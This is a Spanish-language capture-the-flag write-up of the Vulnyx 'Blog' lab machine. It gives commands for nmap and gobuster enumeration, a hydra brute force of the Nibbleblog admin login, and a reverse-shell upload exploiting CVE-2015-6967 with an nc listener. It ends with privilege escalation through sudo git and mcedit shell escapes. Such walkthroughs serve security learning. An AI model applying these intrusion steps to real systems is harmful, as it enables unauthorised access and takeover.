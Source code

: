 ```yaml
---
title: "Blog Writeup - Vulnyx"
date: 2024-01-30
categories: [Writeups, Vulnyx, Easy]
tags: [Linux, Easy, Blog, Vulnyx, privesc, fuzz, git, port, mcedit, hydra, CVE]
image:
   path: /assets/img/posts/blog/blogbanner.png
   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
   alt: Banner blog
---
```



| Información |
|------------|------------|------------|
| Máquina: Blog |
| Creador: d4t4s3c |
| SO: Linux |
| Dificultad: Easy |

En el caso de esta máquina el propio creador d4t4s3c nos da la IP de la misma en el login de la máquina.

En mi caso va a ser la:

```zsh
192.168.0.30
```

![](/assets/img/posts/blog/IPDescubrir.png)

Realizo un ping a la máquina para confirmar que hay visibilidad entre máquinas

![](/assets/img/posts/blog/ping.png)

Realizamos un nmap para ver que servicios están corriendo en la máquina.

``` bash
nmap -sVC 192.168.0.30
```

> El parámetro -sVC es el conjunto de -sV (Service Version, te muestra las versiones de los servicios) y -sC (Script Scan, nos ayuda a encontrar vulnerabilidades conocidas o servicios en el objetivo).
> {: .prompt-tip }

![](/assets/img/posts/blog/nmap.png)

Disponemos de un servicio HTTP en el puerto 80 y un servicio SSH en el puerto 22, visitamos la web.

El index es un ping que nos da la pista de que se trata de un blog

![](/assets/img/posts/blog/esunBlog.png)

Puesto que no encontramos nada procedemos a realizar un escaneo de directorios con dirbuster

```zsh
gobuster dir -u "http://192.168.0.30" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](/assets/img/posts/blog/dirbuster.png)

Encontramos un directorio llamado /my_weblog, nos dirigimos a él.

![](/assets/img/posts/blog/weblog.png)

Encontramos un blog, mirando el código fuente de la página nos damos cuenta que es un Nibbleblog

![](/assets/img/posts/blog/Nibbleblog.png)

Buscando en la [documentación de nibbleblog](https://docs.bludit.com/en/security/disable-admin-user) (ahora bludit) he encontrado que por defecto el usuario con privilegios es "admin"

Intentamos entrar al panel de login con la URL 
```URL
http://192.168.0.30/my_weblog/admin/
```

pero sin éxito, intentamos un FUZZING para encontrar el panel de login

```zsh
gobuster fuzz -w /usr/share/wordlists/wfuzz/general/admin-panels.txt -t 200 -u "http://blog.nyx/my_weblog/FUZZ" --exclude-length 270
```

![](/assets/img/posts/blog/adminphp.png)

Encontramos lo que parece ser el panel de control

![](/assets/img/posts/blog/panelcontrol.png)

Intentamos una fuerza bruta sabiendo que el usuario por defecto es `admin`

```zsh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.30 http-post-form "/my_weblog/admin.php:username=^USER^&password=^PASS^:Incorrect"
```

Obtenemos la password para acceder al panel de control

![](/assets/img/posts/blog/hydra.png)

Una vez dentro vamos a intentar explotar la vulnerabilidad [CVE-2015-6967](https://www.exploit-db.com/exploits/38489) que permite ejecución remota de código a través del plugin My Image

![](/assets/img/posts/blog/plugins.png)

Creamos y subimos la [revshell](https://www.revshells.com/) a través del plugin My Image

![](/assets/img/posts/blog/revshell.png)

Ponemos el puerto que hemmos elegido a la escucha

```zsh
nc -nlvp 4444
```

Ejecutamos la revshell desde la URL 
```URL
http://192.168.0.30/my_weblog/content/private/plugins/my_image/image.php
```

Conseguimos la shell como el usuario www-data

![](/assets/img/posts/blog/shellwww.png)

Encuentro la posible explotación del binario git

![](/assets/img/posts/blog/git.png)

Hago una búsqueda en [GTFObins](https://gtfobins.github.io/)

Antes de explotar el binario es necesario hacer un [tratamiento de la TTY](https://404azz.github.io/posts/Tratamiento_TTY/)

Lo exploto ejecutándolo como el user admin con
```zsh
sudo -u admin /usr/bin/git -p help config
```

Nos dejará meter un texto, invocamos la shell con !/bin/bash y nos convertimos en admin

![](/assets/img/posts/blog/binbash.png)

Encontramos la flag de user dentro de su home

![](/assets/img/posts/blog/user.png)

Hacemos el mismo procedimiento para escalar privilegios, observamos si como admin podemos ejecutar algún binario explotable como root

![](/assets/img/posts/blog/mcedit.png)

Encontramos el mcedit, haciendo una búsqueda en [GTFObins](https://gtfobins.github.io/) no encontramos nada.

Ejecutamos el binario como root 

```zsh
sudo /usr/bin/mcedit
```

![](/assets/img/posts/blog/mceditscreen.png)

Encuentro una forma de invocar una shell desde el programa

![](/assets/img/posts/blog/mceditmenu.png)

![](/assets/img/posts/blog/mceditusermenu.png)

![](/assets/img/posts/blog/mceditshell.png)

Nos convertimos en root a través de la shell de mcedit

![](/assets/img/posts/blog/root.png)

Y por último obtenemos la flag de root!

